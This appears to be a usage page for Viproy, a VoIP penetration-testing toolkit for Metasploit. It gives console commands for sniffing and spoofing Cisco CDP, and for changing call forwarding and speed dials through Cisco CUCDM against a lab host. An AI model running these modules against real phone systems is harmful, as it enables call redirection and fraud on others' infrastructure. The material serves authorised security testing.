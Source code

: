 # Usage of Auxilary Viproy Modules

## CDP Tester

set INTERFACE en5<br>
set ACTION Sniffer<br>
run<br>
jobs<br>

use auxiliary/spoof/cisco/viproy_cdp<br>
show options <br>
set INTERFACE en5<br>
set ACTION Spoof <br>
run<br>

http://www.viproy.com/captures/viproy_cdp.pcapng<br>

# Cisco CUCDM Testing Modules Usage

## Call Forwarding

use auxiliary/voip/viproy_cucdm_callforward <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set ACTION INFO<br>
set MAC 001795A603C2<br>
run<br><br>

set ACTION FORWARD<br>
set FORWARDTO 007<br>
run<br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_callforward.pcapng<br>

## Speeddial Manipulation

use auxiliary/voip/viproy_cucdm_speeddials <br>
set RHOST 192.168.1.151<br>
set RPORT 8080<br>
set MAC 001795A603C2<br>
run<br><br>

set ACTION ADD<br>
set NAME Viproy<br>
set TELNO 007<br>
set POSITION 3<br>
run<br><br>

set ACTION INFO<br>
run<br><br>

set ACTION MODIFY<br>
set POSITION 1<br>
set NAME janedoe<br>
set TELNO 007<br>
run<br><br>

set ACTION INFO<br>
run<br>

http://www.viproy.com/captures/viproy_cucdm_speeddial.pcapng<br
